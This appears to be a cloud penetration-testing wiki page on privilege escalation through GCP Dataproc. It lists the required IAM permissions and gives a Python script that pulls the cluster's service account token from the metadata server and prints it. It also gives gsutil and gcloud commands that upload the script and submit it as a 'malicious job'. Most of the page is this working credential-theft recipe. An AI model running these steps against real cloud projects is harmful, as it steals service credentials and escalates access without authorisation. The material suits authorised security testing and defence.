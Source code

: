 # GCP Dataproc Privilege Escalation

## Dataproc

[[../gcp-services/gcp-dataproc-enum.md]]

### `dataproc.clusters.get`, `dataproc.clusters.use`, `dataproc.jobs.create`, `dataproc.jobs.get`, `dataproc.jobs.list`, `storage.objects.create`, `storage.objects.get` 

I was unable to get a reverse shell using this method, however it is possible to leak SA token from the metadata endpoint using the method described below. 

#### Steps to exploit

- Place the job script on the GCP Bucket

- Submit a job to a Dataproc cluster.

- Use the job to access the metadata server.

- Leak the service account token used by the cluster.

```python
import requests

metadata_url = "http://metadata/computeMetadata/v1/instance/service-accounts/default/token"
headers = {"Metadata-Flavor": "Google"}

def fetch_metadata_token():
    try:
        response = requests.get(metadata_url, headers=headers, timeout=5)
        response.raise_for_status()
        token = response.json().get("access_token", "")
        print(f"Leaked Token: {token}")
        return token
    except Exception as e:
        print(f"Error fetching metadata token: {e}")
        return None

if __name__ == "__main__":
    fetch_metadata_token()
```

```bash
# Copy the script to the storage bucket
gsutil cp <python-script> gs://<bucket-name>/<python-script>

# Submit the malicious job
gcloud dataproc jobs submit pyspark gs://<bucket-name>/<python-script> \
    --cluster=<cluster-name> \
    --region=<region>
```

